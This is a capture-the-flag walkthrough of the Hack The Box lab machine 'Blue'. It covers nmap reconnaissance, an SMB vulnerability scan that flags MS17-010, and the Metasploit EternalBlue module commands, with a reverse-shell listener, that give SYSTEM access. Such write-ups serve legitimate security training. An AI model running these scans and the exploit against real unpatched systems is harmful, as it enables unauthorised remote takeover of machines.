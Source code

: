 ```yaml
---
title: "Blue"
tags:
  - Easy
  - Windows
  - EternalBlue
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|:-| :--------: |--|:------------: |--| :--------:|--|
|  |  Easy |  | 10.10.10.40 |  | [Blue](https://app.hackthebox.com/machines/blue) |  |

---
### Reconnaissance
Perform **Nmap** scan to enumerate ports:

```shell
sudo nmap -sC -sV -vv -Pn -p- -T4 -o full_nmap 10.10.10.40
```

**Results:**

```
PORT      STATE SERVICE      REASON          VERSION
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49156/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

From our nmap scan, we see that we are dealing with a **Windows 7** machine, with notable port **445 (SMB)** being open.

---
### EternalBlue Exploitation (MS17-010)
Since SMB was running on the target machine, I ran a vulnerability check on the server using nmap's **smb-vuln** scripts:

```shell
sudo nmap -vv -p 445 --script=smb-vuln* --script-args=unsafe=1 10.10.10.40
```

**Results:**

```
PORT    STATE SERVICE      REASON
445/tcp open  microsoft-ds syn-ack ttl 127

Host script results:
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
|_smb-vuln-ms10-054: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```

We discover that the target machine is actually vulnerable to the **EternalBlue (MS17-010)** vulnerability.

We can use Metasploit's eternalblue module to exploit the machine:

```shell
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.40
set LHOST tun0
set LPORT 443
run
```

We are able to get an easy Meterpreter shell using the exploit:

![screenshot1](../assets/images/Blue/screenshot1.png)

With the **shell** command, we can then open a shell on the target, verifying that we are the **SYSTEM** user:

![screenshot1](../assets/images/Blue/screenshot2.png)

We now have full access to the target machine!

The user flag can be found in the user haris' desktop, while the root flag can be found in the Administrator's desktop (as usual). 